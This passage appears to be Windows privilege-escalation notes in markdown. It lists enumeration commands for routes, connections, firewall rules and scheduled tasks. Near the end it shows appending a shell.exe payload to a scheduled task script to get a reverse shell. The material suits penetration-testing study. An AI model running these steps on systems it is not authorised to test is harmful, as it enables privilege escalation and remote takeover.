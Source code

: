 ### Networking routing tables

```powershell
C:\Cas> route print
```

### Active network connections
```powershell
C:\Cas> netstat -ano
```

## Firewall Status and Rules

??? info "info"
    For example, if a network service is not remotely accessible because it is blocked by the firewall, it is generally accessible locally via the loopback interface. If we can interact with these services locally, we may be able to exploit them to escalate our privileges on the local system.
    In addition, we can gather information about inbound and outbound port filtering during this phase to facilitate port forwarding and tunneling when it's time to pivot to an internal network.

### Firewall profile

```powershell
C:\Cas> netsh advfirewall show currentprofile
```

### Firewall rules

```powershell
C:\Cas> netsh advfirewall firewall show rule name=all
```

## Scheduled Tasks

List all scheduled tasks

```powershell
C:\Cas> schtasks /query /fo LIST /v

C:\Cas> Get-ScheduledTask | where {$_.TaskPath -notlike “\Microsoft*”} | ft TaskName,TaskPath,State
```

??? info "info"
    Windows can be configured to run tasks at specific times, periodically (e.g. every 5 mins) or when triggered by some event (e.g. a user logon). Tasks usually run with the privileges of the user who created them, however administrators can configure tasks to run as other users, including SYSTEM.

    Let’s append shell.exe to this script to get back reverse shell on machine

```powershell
C:\Cas> echo C:\Cas\shell.exe >> C:\<path-scheduled-tasks>
```

## Installed Applications and Patch Levels
